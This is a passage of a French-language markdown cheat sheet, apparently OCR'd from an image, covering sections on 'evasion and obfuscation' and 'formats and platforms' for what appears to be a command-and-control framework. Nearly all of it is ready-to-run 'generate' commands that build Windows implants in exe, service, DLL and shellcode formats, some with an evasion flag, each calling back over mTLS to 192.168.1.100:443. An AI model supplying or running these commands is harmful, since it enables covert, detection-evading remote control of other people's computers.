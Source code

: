 
## 5. Évasion et Obfuscation

### 5.1 Payload avec évasion basique
```bash
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format exe \
    --evasion \
    --skip-symbols \
    --save /tmp/evasive_payload.exe
```

### 5.2 Payload service Windows
```bash
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format service \
    --save /tmp/service_payload.exe
```

### 5.3 Payload DLL
```bash
generate --mtls 192.168.1.100:443 \
    --os windows \
    --arch amd64 \
    --format shared \
    --save /tmp/payload.dll
```

---

## 6. Formats et Plateformes

### 6.1 Tous les formats Windows
```bash
# Executable (.exe)
generate --mtls 192.168.1.100:443 --os windows --format exe --save /tmp/payload.exe

# DLL partagée
generate --mtls 192.168.1.100:443 --os windows --format shared --save /tmp/payload.dll

# Shellcode
generate --mtls 192.168.1.100:443 --os windows --format shellcode --save /tmp/payload.bin

# Service Windows
generate --mtls 192.168.1.100:443 --os windows --format service --save /tmp/payload_service.exe
```
